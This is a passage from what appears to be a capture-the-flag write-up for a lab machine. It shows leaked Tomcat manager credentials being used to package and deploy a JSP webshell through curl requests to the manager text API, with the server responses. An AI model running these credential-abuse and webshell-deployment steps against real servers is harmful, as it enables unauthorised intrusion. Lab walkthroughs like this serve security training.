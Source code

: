 ```bash
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```
We found a user with the role `admin-gui`, its credentials are `tomcat:$3cureP4s5w0rd123!`. Now we can access `/host-manager/html` and list apps on `/manager/text/list`.

## User shell through tomcat manager
We can try to upload our own web application to the server:
```bash
❯ mkdir Exploits/webshell
❯ nvim Exploits/webshell/index.jsp
❯ cd Exploits/webshell
❯ jar -cvf ../webshell.war *
added manifest
adding: Exploits/webshell/index.jsp(in = 579) (out= 351)(deflated 39%)
❯ cd ../../
❯ curl --upload-file Exploits/webshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://megahosting.htb:8080/manager/deploy?path=/webshell"
<!doctype html><html lang="en"><head><title>HTTP Status 405 – Method Not Allowed</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 405 – Method Not Allowed</h1><hr class="line" /><p><b>Type</b> Status Report</p><p><b>Description</b> The method received in the request-line is known by the origin server but not supported by the target resource.</p><hr class="line" /><h3>Apache Tomcat/9.0.31 (Ubuntu)</h3></body></html>
```
As we can see, we are not able to deploy the web application from the ui url, we can try uploading it through the `/manager/text` path:
```bash
❯ curl --upload-file Exploits/webshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://megahosting.htb:8080/manager/text/deploy?path=/webshell&update=true"
OK - Deployed application at context path [/webshell]
```
Let's list the web applications deployed and check if our web application is there:
```bash
❯ curl -u 'tomcat:$3cureP4s5w0rd123!' "http://megahosting.htb:8080/manager/text/list"
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/webshell:running:0:webshell
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```